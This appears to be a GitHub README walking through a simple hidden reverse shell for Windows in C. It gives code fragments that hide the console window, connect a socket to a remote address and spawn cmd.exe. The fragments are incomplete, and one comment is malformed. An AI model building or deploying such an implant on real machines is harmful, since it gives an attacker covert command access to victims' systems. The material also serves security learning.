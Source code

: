 ## About this simple low level reverse shell
#### introduction
the main thing in exploit developement, malware analyse or any other topic is how to deal with remote servers or machines, so that you have to be familiar with the SOCKETs.
---
socket is a software structure within a network node of a computer network that serves as an endpoint for sending and receiving data across the network
---
recognize that we talk about the low level language like c/c++. so first of all you have to install all prerequired stuff, an IDE, a compiler and a debugger which you can find them [here](https://code.visualstudio.com/docs/languages/cpp#_install-a-compiler)

#### The functions I've used
1. [ShowWindow] (https://www.google.com/url?sa=t&rct=j&q=&esrc=s&source=web&cd=&cad=rja&uact=8&ved=2ahUKEwjh_t6mjP35AhXFglwKHcEcBgwQFnoECAQQAw&url=https%3A%2F%2Fdocs.microsoft.com%2Fen-us%2Fwindows%2Fwin32%2Fapi%2Fwinuser%2Fnf-winuser-showwindow&usg=AOvVaw0m88U6DTLNGTpAJUXh7Wlp)
```c
ShowWindow( GetConsoleWindow(), SW_HIDE ); // hide the console of the current process from the user interface and run it in the background
```
2. [WSAStartup](https://www.google.com/url?sa=t&rct=j&q=&esrc=s&source=web&cd=&cad=rja&uact=8&ved=2ahUKEwihhcTUjP35AhXeQ0EAHTIQAhUQFnoECAYQAQ&url=https%3A%2F%2Fdocs.microsoft.com%2Fen-us%2Fwindows%2Fwin32%2Fapi%2Fwinsock%2Fnf-winsock-wsastartup&usg=AOvVaw2dl7R4ZunjRdgaij7U1u_-)
```c
WSAStartup(MAKEWORD(2, 2), &wsa); // initialize winsock
```
3. [WSASocket](https://www.google.com/url?sa=t&rct=j&q=&esrc=s&source=web&cd=&cad=rja&uact=8&ved=2ahUKEwjrgOvhjP35AhV-QUEAHQy7C2cQFnoECAYQAQ&url=https%3A%2F%2Fdocs.microsoft.com%2Fen-us%2Fwindows%2Fwin32%2Fapi%2Fwinsock2%2Fnf-winsock2-wsasocketa&usg=AOvVaw1w00qrcKKbcugzayOhuo_o)
```c
shell = WSASocket(AF_INET, SOCK_STREAM, IPPROTO_TCP, NULL, (unsigned int) NULL, (unsigned int) NULL);
```
4. [WSAConnect](https://www.google.com/url?sa=t&rct=j&q=&esrc=s&source=web&cd=&cad=rja&uact=8&ved=2ahUKEwiJhcfzjP35AhWOS0EAHQbQDc4QFnoECAIQAQ&url=https%3A%2F%2Fdocs.microsoft.com%2Fen-us%2Fwindows%2Fwin32%2Fapi%2Fwinsock2%2Fnf-winsock2-wsaconnect&usg=AOvVaw11903FO_fI_g-PltsdS2hX)
```c
connection = WSAConnect(shell, (SOCKADDR*)&shell_addr, sizeof(shell_addr), NULL, NULL, NULL, NULL);
```
5. [CreateProcess](https://www.google.com/url?sa=t&rct=j&q=&esrc=s&source=web&cd=&cad=rja&uact=8&ved=2ahUKEwjn15SAjf35AhWSmFwKHY2SDdwQFnoECAMQAQ&url=https%3A%2F%2Fdocs.microsoft.com%2Fen-us%2Fwindows%2Fwin32%2Fapi%2Fprocessthreadsapi%2Fnf-processthreadsapi-createprocessa&usg=AOvVaw3muVjZWA6DzAcUd32dbaSO)
```c
CreateProcess(NULL, "cmd.exe", NULL, NULL, TRUE, 0, NULL, NULL, &si, &pi); // create proccess that spawn command prompt (shell)
```
6. [WaitForSingleObject](https://www.google.com/url?sa=t&source=web&cd=&cad=rja&uact=8&ved=2ahUKEwiKie6Tjf35AhXlQkEAHSMXDFwQFnoECAgQAQ&url=https%3A%2F%2Fdocs.microsoft.com%2Fen-us%2Fwindows%2Fwin32%2Fapi%2Fsynchapi%2Fnf-synchapi-waitforsingleobject&usg=AOvVaw1QxSMBrJFbVO2ai8p37N79)
```c
WaitForSingleObject(pi.hProcess, INFINITE); \\ wait the process until it ends and close the soxket
```
7. [CloseHandle](https://www.google.com/url?sa=t&rct=j&q=&esrc=s&source=web&cd=&cad=rja&uact=8&ved=2ahUKEwib3Pahjf35AhWbi1wKHRA2AqMQFnoECAkQAQ&url=https%3A%2F%2Fdocs.microsoft.com%2Fen-us%2Fwindows%2Fwin32%2Fapi%2Fhandleapi%2Fnf-handleapi-closehandle&usg=AOvVaw0WzqOSJjwQS5kHDz5cTv71)
```c
CloseHandle(pi.hProcess);
```